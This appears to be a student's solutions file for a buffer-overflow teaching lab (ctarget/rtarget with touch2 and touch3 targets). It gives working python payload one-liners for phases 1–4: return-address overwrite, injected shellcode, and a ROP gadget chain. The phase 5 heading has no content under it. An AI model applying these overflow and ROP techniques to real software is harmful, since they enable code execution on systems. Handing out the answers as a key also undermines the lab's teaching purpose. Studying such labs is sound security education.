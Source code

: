 # Solutions

cookie: 0x59b997fa

## info

piping into gdb example: ./hex2raw < phase2.txt > rawphase2.txt

## phase 1

python3 -c 'import sys; sys.stdout.buffer.write(b"a"*40 + b"\xc0\x17\x40")' | ./ctarget -q

## phase 2

gcc -c gen_byte_code.s
objdump -d gen_byte_code.o  > gen_byte_code.d

info: move cookie to rdi, push address of touch2 onto stack (this updates the stack pointer also), call retq (which pops return address from stack which points to touch2.

python3 -c 'import sys; sys.stdout.buffer.write( b"\xbf\xfa\x97\xb9\x59" + b"\x68\xec\x17\x40\x00" + b"\xc3" + b"\x00"*29 + b"\x78\xdc\x61\x55" + b"\x00"*4)' | ./ctarget -q

## phase 3

cookie:

0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61

continue at address 0x5561dc78 (first address of buffer);
move memory address of first character of string into rdi (address is 0x5561dc78 + 49... remember: 40-48 is reserved for return address that points at exploit code);
push func address of touch3 onto stack;
return (this takes you to touch3);

python3 -c 'import sys; sys.stdout.buffer.write( b"\x48\xc7\xc7\xa8\xdc\x61\x55" + b"\x68\xfa\x18\x40\x00" + b"\xc3" + b"\x00"*27 + b"\x78\xdc\x61\x55" + b"\x00"*4 + b"\x35\x39\x62\x39\x39\x37\x66\x61\x00")' | ./ctarget -q

## phase 4

Probable approach: use our interesting code bits in our gadgets to pass cookie to rdi, then hit touch 2... we want to structure our buffer so that it contains addresses of interesting function bits in sequential order.

^ this approach was right!

python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*40 + b"\xcc\x19\x40"+ b"\x00"*5 + b"\xfa\x97\xb9\x59" + b"\x00"*4 + b"\xa2\x19\x40" + b"\x00"*5 + b"\xec\x17\x40"+b"\x00"*5)' | ./rtarget -q

## phase 5